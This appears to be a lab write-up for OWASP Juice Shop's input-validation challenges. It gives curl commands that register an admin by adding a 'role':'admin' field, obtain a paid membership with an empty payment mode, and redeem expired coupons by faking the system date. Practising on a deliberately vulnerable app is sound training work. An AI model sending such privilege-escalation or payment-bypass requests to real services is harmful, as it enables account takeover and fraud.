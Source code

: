 # Improper Input Validation

## Admin Registration

Register as a user with administrator privileges

```bash
# register a user > inspect the response > add to the payload `"role":"admin"`
curl -sS http://juiceshop:3000/api/Users/ -H 'Content-Type: application/json' --data-raw $'{"email":"a@a.com","password":"12345","passwordRepeat":"12345","securityQuestion":{"id":3,"question":"Mother\'s birth date? (MM/DD/YY)","createdAt":"2023-11-07T08:41:38.130Z","updatedAt":"2023-11-07T08:41:38.130Z"},"securityAnswer":"000000","role":"admin"}' | jq
```

## Deluxe Fraud

Obtain a Deluxe Membership without paying for it

```bash
# enable wallet button
curl http://juiceshop:3000/rest/deluxe-membership -H 'Authorization: Bearer <AUTH_TOKEN>' -H 'Content-Type: application/json' --data-raw '{"paymentMode":""}'
```

<!--
## Empty User Registration

Register a user with an empty email and password
```bash
# TODO not implemented
```
-->

## Expired Coupon

Successfully redeem an expired campaign coupon code

* [libfaketime](https://github.com/wolfcw/libfaketime)
* [Is it possible change date in docker container?](https://stackoverflow.com/questions/29556879/is-it-possible-change-date-in-docker-container)
* [How to set system time dynamically in a Docker container](https://serverfault.com/questions/824631/how-to-set-system-time-dynamically-in-a-docker-container)

```bash
# pretty print main.js source
this.campaigns = {
  WMNSDY2019: {
    validOn: 1551999600000,
    discount: 75
  },
  ...
  ORANGE2023: {
    validOn: 1683154800000,
    discount: 40
  }
}

# if your epoch time is in milliseconds instead of seconds, either put a dot before last three digits, or remove the last three digits
date -d @1551999600.000
date -d @1551999600
# Thu Mar  7 23:00:00 UTC 2019

date -d @1683154800.000
# Wed May  3 23:00:00 UTC 2023 

# change date > apply coupon > pay
```
